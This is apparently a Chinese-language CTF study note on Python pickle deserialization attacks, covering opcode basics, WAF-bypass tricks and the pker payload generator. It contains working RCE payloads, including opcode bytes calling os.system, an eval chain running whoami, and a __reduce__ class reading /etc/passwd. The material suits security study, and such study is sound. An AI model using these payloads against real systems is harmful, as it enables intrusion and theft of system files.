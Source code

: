 tags:: CTF/Python

- > [参考](https://xz.aliyun.com/t/7012)
- # 原理
	- pickle数据实际上是字节码，加载pickle就是执行这串字节码
	- 我们可以通过构造恶意字节码来调用eval函数，实现RCE
- # 绕WAF
	- payload生成：[[CTFWEB/Python/Pickle/opcode]]
	- 字符串
		- pickle要想支持字符串拼接可以考虑拿到`builtins.getattr`
		- 需要RCE可以找找其他被import的函数
		- 字符串拼接函数在jinja2中有：`jinja2.utils.concat`
			- ```python
			  builtins_opcode = pickle_obj(
			      pickle_stack_global(pickle_string("BINSTRING", "jinja2.utils"), pickle_string("BINSTRING", "concat")),
			      [
			          pickle_tuple(
			              "TUPLE",
			              [pickle_string("BINSTRING", "built"), pickle_string("BINSTRING", "ins")],
			          )
			      ],
			  )
			  ```
		-
	- 字母`R`被禁用
		- 用GLOBAL找到危险函数并用OBJ调用
		- ```python
		  import pickle
		  import pickletools
		  
		  opcode=b'''(cos
		  system
		  S'bash -c "sleep 1"'
		  o.'''
		  pickletools.dis(opcode)
		  pickle.loads(opcode)
		  ```
	- 可以用[这个工具](https://github.com/EddieIvan01/pker)生成
		- 可以实现：
		  collapsed:: true
			- 变量赋值 存到 memo 中，保存 memo 下标和变量名即可
			- 函数调用
			- 类型字面量构造
			- list 和 dict 成员修改
			- 对象成员变量修改
		- ```shell
		  $ cat test/code_breaking
		  getattr = GLOBAL('builtins', 'getattr')
		  dict = GLOBAL('builtins', 'dict')
		  dict_get = getattr(dict, 'get')
		  globals = GLOBAL('builtins', 'globals')
		  builtins = globals()
		  __builtins__ = dict_get(builtins, '__builtins__')
		  eval = getattr(__builtins__, 'eval')
		  eval('__import__("os").system("whoami")')
		  return
		  
		  $ python3 pker.py < test/code_breaking
		  b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
		  ```
- # Pickle文件OPCODE分析
	- `python -m pickletools pickle.pkl`
- # 基础
	- pickle支持
	  id:: 65af7fea-bc74-4284-97a3-e8fbebbd3614
		- 构造任意字符串、字节序列、数字、元组、列表、字典放入栈顶
		- 取全局变量放入栈顶
			- 可以取某模块中的对象，如`__main__.app`或者`jinja2.utils.concat`
		- 调用函数
		- 根据类创建对象
	- 把生成的 bytes 加载即可执行任意代码
	- 对象被 pickle 反序列化时，pickle 会调用对象的`__reduce__`方法（如果有）来获得反序列化的方法
	- ```python
	  #!/usr/bin/python2
	  import pickle
	  import urllib
	  class payload(object):
	      def __reduce__(self):
	         return (eval, ("open('/etc/passwd','r').read()",))
	  a = pickle.dumps(payload())
	  a = urllib.quote(a)
	  print(a)
	  ```
-